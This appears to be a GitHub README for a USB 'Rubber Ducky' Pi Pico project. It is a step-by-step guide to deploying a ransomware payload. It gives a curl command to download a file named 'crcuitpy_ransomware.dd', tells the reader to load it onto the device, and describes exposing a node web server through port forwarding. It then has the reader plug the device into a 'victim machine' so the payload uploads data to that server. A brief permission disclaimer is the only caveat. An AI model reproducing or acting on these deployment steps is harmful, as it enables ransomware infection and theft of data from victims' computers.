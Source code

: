 # Rubber Ducky Pi Pico Setup and Payload Deployment

Welcome to the Rubber Ducky Pi Pico project! This guide will walk you through setting up your Rubber Ducky Pi Pico, downloading the payload from this repository, setting up the npm web server, and deploying the payload.

## Prerequisites

Before you begin, make sure you have the following:

- A Rubber Ducky Pi Pico device
- A computer to set up the web server
- Node.js installed on your computer

## Setup Instructions

### Step 1: Set Up Your Rubber Ducky Pi Pico

1. Connect your Rubber Ducky Pi Pico to your computer.
2. Follow the instructions for setting up the Pi Pico as a Rubber Ducky. You can find detailed instructions [here](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads).

### Step 2: Download the Payload

1. Download the payload file using the following command:
    ```sh
    curl -O https://raw.githubusercontent.com/harshilbadminton/ransomware/master/crcuitpy_ransomware.dd
    ```
2. Paste the `crcuitpy_ransomware.dd` file into the root directory of the Rubber Ducky Pi Pico and rename it to `payload.dd`.

### Step 3: Set Up the npm Web Server

1. Download the `web_server` folder from this repository.
2. Navigate to the `web_server` directory:
    ```sh
    cd web_server
    ```
3. Run the web server:
    ```sh
    node server.js
    ```
4. Ensure the web server is running on your desired IP address and port (default is `http://localhost:3000`).

### Step 4: Host the Website on RDP or Your Hacking Machine

1. Make sure your web server is accessible from the network. You may need to configure port forwarding or firewall settings to allow external access.
2. Test the web server by navigating to `http://<your-server-ip>:3000` in a web browser.

### Step 5: Deploy the Payload

1. Plug the Rubber Ducky Pi Pico into the victim machine.
2. The Pi Pico will execute the payload, which includes accessing your web server and uploading necessary data.

## Important Notes

- Always obtain permission before deploying any hacking tools or techniques on a machine you do not own.
- Misuse of these tools can result in severe consequences, including legal action.


## Contributing

Contributions are welcome! Please fork this repository and submit pull requests.

## Contact

For any questions or issues, please open an issue in this repository.
